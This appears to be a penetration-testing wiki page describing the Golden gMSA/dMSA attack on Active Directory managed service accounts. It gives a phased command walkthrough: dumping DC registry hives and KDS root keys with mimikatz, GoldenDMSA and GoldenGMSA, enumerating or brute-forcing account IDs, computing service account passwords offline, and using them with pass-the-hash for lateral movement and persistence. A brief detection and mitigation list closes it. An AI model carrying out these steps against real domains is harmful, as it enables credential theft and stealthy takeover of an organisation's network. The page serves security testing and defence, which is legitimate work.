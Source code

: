 # Golden gMSA/dMSA Attack (Offline Derivation of Managed Service Account Passwords)


## Overview

Windows Managed Service Accounts (MSA) are special principals designed to run services without the need to manually manage their passwords.
There are two major flavours:

1. **gMSA** – group Managed Service Account – can be used on multiple hosts that are authorised in its `msDS-GroupMSAMembership` attribute.
2. **dMSA** – delegated Managed Service Account – the (preview) successor to gMSA, relying on the same cryptography but allowing more granular delegation scenarios.

For both variants the **password is not stored** on each Domain Controller (DC) like a regular NT-hash. Instead every DC can **derive** the current password on-the-fly from:

* The forest-wide **KDS Root Key** (`KRBTGT\KDS`)  – randomly generated GUID-named secret, replicated to every DC under the `CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …` container.
* The target account **SID**.
* A per-account **ManagedPasswordID** (GUID) found in the `msDS-ManagedPasswordId` attribute.

The derivation is: `AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → 240 byte blob finally **base64-encoded** and stored in the `msDS-ManagedPassword` attribute.
No Kerberos traffic or domain interaction is required during normal password usage – a member host derives the password locally as long as it knows the three inputs.

## Golden gMSA / Golden dMSA Attack

If an attacker can obtain all three inputs **offline** they can compute **valid current and future passwords** for **any gMSA/dMSA in the forest** without touching the DC again, bypassing:

* LDAP read auditing
* Password change intervals (they can pre-compute)

This is analogous to a *Golden Ticket* for service accounts.

### Prerequisites

1. **Forest-level compromise** of **one DC** (or Enterprise Admin), or `SYSTEM` access to one of the DCs in the forest.
2. Ability to enumerate service accounts (LDAP read / RID brute-force).
3. .NET ≥ 4.7.2 x64 workstation to run [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) or equivalent code.

### Golden gMSA / dMSA
#### Phase 1 – Extract the KDS Root Key

Dump from any DC (Volume Shadow Copy / raw SAM+SECURITY hives or remote secrets):

```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too

# With GoldendMSA
GoldendMSA.exe kds --domain <domain name>   # query KDS root keys from a DC in the forest
GoldendMSA.exe kds 

# With GoldenGMSA
GoldenGMSA.exe kdsinfo
```
```The base64 string labelled `RootKey` (GUID name) is required in later steps.

##### Phase 2 – Enumerate gMSA / dMSA objects

Retrieve at least `sAMAccountName`, `objectSid` and `msDS-ManagedPasswordId`:

```bash
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
  Select sAMAccountName,objectSid,msDS-ManagedPasswordId
  
GoldenGMSA.exe gmsainfo
```
```
[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) implements helper modes:

```bash
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```
```
##### Phase 3 – Guess / Discover the ManagedPasswordID (when missing)

Some deployments *strip* `msDS-ManagedPasswordId` from ACL-protected reads.
Because the GUID is 128-bit, naive bruteforce is infeasible, but:

1. The first **32 bits = Unix epoch time** of the account creation (minutes resolution).
2. Followed by 96 random bits.

Therefore a **narrow wordlist per account** (± few hours) is realistic.

```bash
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
```The tool computes candidate passwords and compares their base64 blob against the real `msDS-ManagedPassword` attribute – the match reveals the correct GUID.

##### Phase 4 – Offline Password Computation & Conversion

Once the ManagedPasswordID is known, the valid password is one command away:

```bash
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID> -i <KDSRootKey ID>
GoldenGMSA.exe compute --sid <SID> --kdskey <KDSRootKey> --pwdid <ManagedPasswordID>
```
```The resulting hashes can be injected with **mimikatz** (`sekurlsa::pth`) or **Rubeus** for Kerberos abuse, enabling stealth **lateral movement** and **persistence**.

## Detection & Mitigation

* Restrict **DC backup and registry hive read** capabilities to Tier-0 administrators.
* Monitor **Directory Services Restore Mode (DSRM)** or **Volume Shadow Copy** creation on DCs.
* Audit reads / changes to `CN=Master Root Keys,…` and `userAccountControl` flags of service accounts.
* Detect unusual **base64 password writes** or sudden service password reuse across hosts.
* Consider converting high-privilege gMSAs to **classic service accounts** with regular random rotations where Tier-0 isolation is not possible.

## Tooling

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – reference implementation used in this page.
* [`Semperis/GoldenGMSA`](https://github.com/Semperis/GoldenGMSA/) – reference implementation used in this page.
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`, `sekurlsa::pth`, `kerberos::ptt`.
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – pass-the-ticket using derived AES keys.

## References

- [[https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/|Golden dMSA – authentication bypass for delegated Managed Service Accounts]]
- [[https://www.semperis.com/blog/golden-gmsa-attack/|gMSA Active Directory Attacks Accounts]]
- [[https://github.com/Semperis/GoldenDMSA|Semperis/GoldenDMSA GitHub repository]]
- [[https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent|Improsec – Golden gMSA trust attack]]

